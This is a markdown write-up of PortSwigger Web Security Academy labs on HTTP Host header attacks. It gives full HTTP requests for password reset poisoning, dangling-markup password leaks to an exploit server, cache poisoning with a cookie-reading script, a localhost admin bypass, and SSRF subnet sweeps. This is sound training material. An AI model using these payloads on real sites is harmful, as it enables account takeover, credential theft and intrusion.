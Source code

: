 # HTTP Host Header Attack
HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior.

## How to test for vulnerabilities using the HTTP Host header
- **Supply an arbitrary Host header:** add arbitrary port value
- **Check for flawed validation**
- **Inject duplicate Host headers**
- **Supply an absolute URL**
- **Indenting HTTP headers with a space character**
- **Inject host override headers:** `X-Host`, `X-Forwarded-Server`, `X-HTTP-Host-Override`, `Forwarded`, `X-Forwarded-Host`, `X-Original-URL`

### LAB: Basic password reset poisoning
Notice the reset password function will send an email with a link containing the value of the `Host` header and the token to the client. Send a reset password request for user `carlos` with the `Host` header value set to our exploit server:

    POST /forgot-password HTTP/2
    Host: exploit-0aba006a0360a28181024c3601cf0036.exploit-server.net/exploit

    csrf=uT5JUzeQyGuAdMlLJ6Lbk4djBrKqWd3E&username=carlos

After Carlos click on the link, visit the log page to obtain the token. Use the token to reset Carlos password and login to his account.

### LAB: Password reset poisoning via dangling markup
Notice the `Host` header at `POST /forgot-password` accepts arbitrary port value and reflects it inside the `href` attribute of the `a` tag. Use danling markup to observe the reset password appearing after the `a` tag:

    POST /forgot-password HTTP/2
    Host: 0a7500ac048205b380390887003600a4.web-security-academy.net:'<a href="//exploit-0ad30065047505668093072501d70058.exploit-server.net/?

    csrf=cNDtaTqwnnnI2PMPmNJoTN8480qllGpl&username=carlos

After Carlos click on the link, visit our log page to view the request:

    "GET /?/login'>click+here</a>+to+login+with+your+new+password:+NJZtqurfeu</p><p>Thanks,<br/>Support+team</p><i>This+email+has+been+scanned+by+the+MacCarthy+Email+Security+service</i> HTTP/1.1" 200

Retrieve the password and login to Carlos' account.

### LAB: Web cache poisoning via ambiguous requests
Notice the `Host` value is reflected inside a script `src` attribute. When sending a request with 2 `Host` header, the second value is reflected inside the script `src` attribute. Send this request:

    GET / HTTP/1.1
    Host: 0a7000b6043a95d480210d90001600a5.h1-web-security-academy.net
    Host: exploit-0a2f00030419953180010ce101190006.exploit-server.net/exploit#

However the cache server only considers the first `Host` header's value as a cache key. Resend this request to make the cache server store it. Now when the victim visits the home page, he is served with our malicious script at the exploit server:

    alert(document.cookie)

### LAB: Host header authentication bypass
Notice when accessing `/admin`, we are restricted with this reason:

    Admin interface only available to local users

This suggested that the admin interface can be accessed if we can trick the server into thinking that we are local users. Send this request:

    GET /admin HTTP/2
    Host: localhost

Now we successfully access the admin interface and found an endpoint to delete user Carlos. Send this request to delete him:

    GET /admin/delete?username=carlos HTTP/2
    Host: localhost

### LAB: Routing-based SSRF
Change the `Host` header of the `GET / HTTP/2` request to use our Burp's Collaborator payload. Send the request and notice the HTTP requesting to our server. This indicates that, we can make the middleware issue a request to an arbitrary server.
Send this request to Intruder, deselect the `Update Host header to match target`. Now create a sniper attack for every IP address in the subnet 192.168.0.0/24. Notice 1 IP address is given us a redirection to the admin interface. Use the found IP to view the admin interface:

    GET /admin HTTP/2
    Host: 192.168.0.101

Now send the delete user request to successfully delete user Carlos:

    POST /admin/delete HTTP/2
    Host: 192.168.0.101

    csrf=RX7lsL6eVBl3Cjnqp6gFiTeFkVPTz2DL&username=carlos

### LAB: SSRF via flawed request parsing
Notice when supplying the target request with the absolute URL, the request is no longer blocked when modifying the `Host` header. Send this request and observe that we can make the middleware issue request to an arbitrary server:

    GET https://0a32000d03ee7e80818fbb8300c0005c.web-security-academy.net/ HTTP/2
    Host: 2y1a02ux3fmrhlpbx6cqqja6dxjq7kv9.oastify.com

Send this request to Intruder, deselect the `Update Host header to match target`. Now create a sniper attack for every IP address in the subnet 192.168.0.0/24. Notice 1 IP address is given us a redirection to the admin interface. Use the found IP to view the admin interface:

    GET https://0a32000d03ee7e80818fbb8300c0005c.web-security-academy.net/admin HTTP/2
    Host: 192.168.0.181

Now send the delete user request to successfully delete user Carlos:

    POST https://0a32000d03ee7e80818fbb8300c0005c.web-security-academy.net/admin/delete HTTP/2
    Host: 192.168.0.181

    csrf=PGU6qglOQEUM9zLMBek6gi355yHPkkCH&username=carlos

### LAB: Host validation bypass via connection state attack
[Reference.](https://portswigger.net/research/browser-powered-desync-attacks#state)

Send the `GET / HTTP/1.1` to Repeater. Duplicate the request and modify it to (remember to retain the `Cookie` and `Connection: keep-alive` header in both requests):

    GET /admin HTTP/1.1
    Host: 192.168.0.1
    Cookie: ...
    Connection: keep-alive

Group the 2 tabs and `Send in sequence (single connection)`. Notice the admin interface appears. Modify the second request to:

    POST /admin/delete HTTP/1.1
    Host: 192.168.0.1
    Cookie: ...
    Content-Length: ...
    Connection: keep-alive

    csrf=ibqNTHzoorRrNKoUlOPGHLrqcNoezrE0&username=carlos

Resend the group to successfully delete user Carlos.